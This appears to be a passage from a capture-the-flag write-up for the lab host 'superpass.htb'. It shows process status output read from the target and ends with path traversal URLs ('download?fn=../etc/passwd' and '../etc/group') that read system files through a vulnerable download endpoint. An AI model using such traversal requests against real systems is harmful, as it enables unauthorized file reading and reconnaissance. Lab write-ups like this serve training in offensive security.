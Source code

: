 ```text
VmLck:	       0 kB
VmPin:	       0 kB
VmHWM:	   62688 kB
VmRSS:	   62688 kB
RssAnon:	   48636 kB
RssFile:	   14052 kB
RssShmem:	       0 kB
VmData:	   65948 kB
VmStk:	     132 kB
VmExe:	    2768 kB
VmLib:	   11840 kB
VmPTE:	     216 kB
VmSwap:	       0 kB
HugetlbPages:	       0 kB
CoreDumping:	0
THP_enabled:	1
Threads:	3
SigQ:	0/15108
SigPnd:	0000000000000000
ShdPnd:	0000000000000000
SigBlk:	0000000000000000
SigIgn:	0000000001001000
SigCgt:	0000000108304226
CapInh:	0000000000000000
CapPrm:	0000000000000000
CapEff:	0000000000000000
CapBnd:	000001ffffffffff
CapAmb:	0000000000000000
NoNewPrivs:	0
Seccomp:	0
Seccomp_filters:	0
Speculation_Store_Bypass:	thread vulnerable
SpeculationIndirectBranch:	conditional enabled
Cpus_allowed:	ffffffff,ffffffff,ffffffff,ffffffff
Cpus_allowed_list:	0-127
Mems_allowed:	00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000001
Mems_allowed_list:	0
voluntary_ctxt_switches:	2829
nonvoluntary_ctxt_switches:	153
```

We get the user ID :

- uid=33
- gui=33

To know to which user this ID is for, we can read `/etc/passwd` :

- http://superpass.htb/download?fn=../etc/passwd
- http://superpass.htb/download?fn=../etc/group
